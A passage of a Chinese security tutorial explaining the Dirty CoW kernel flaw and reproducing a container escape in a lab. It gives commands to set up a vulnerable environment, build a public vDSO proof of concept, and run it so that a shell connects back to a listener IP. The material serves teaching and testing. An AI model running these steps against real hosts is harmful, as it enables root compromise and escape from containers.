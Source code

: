 近年来，Linux 系统曝出过无数内核漏洞，其中能够用来提权的也不少，脏牛依赖于内存页的写时复制机制，该机制英文名称为 Copy-on-Write，再结合内存页特性，将漏洞命名为Dirty CoW，译为脏牛）大概是其中最有名气的漏洞之一。漏洞发现者甚至为其申请了专属域名（dirtycow.ninja），在笔者的印象中，上一个同样申请了域名的严重漏洞还是2014年的心脏滴血（CVE-2014-0160，heartbleed.com）。自这两个漏洞开始，越来越多的研究人员开始为他们发现的高危漏洞申请域名（尽管依然是极少数）。

关于脏牛漏洞的分析和利用文章早已遍布全网。这里我们使用来自 scumjr 的 [PoC](https://github.com/scumjr/dirtycow-vdso) 来完成容器逃逸。该利用的核心思路是向 vDSO 内写入 shellcode 并劫持正常函数的调用过程。

复现：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>./metarget cnv install cve-2016-5195<br>git clone https://github.com/gebl/dirtycow-docker-vdso.git<br>cd dirtycow-docker-vdso/<br>docker-compose run dirtycow /bin/bash<br>``` |

进入容器，编译 POC：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>cd /dirtycow-vdso/<br>make<br>./0xdeadbeef 192.168.172.136:1234<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

-   云原生安全——攻防实践与体系构建
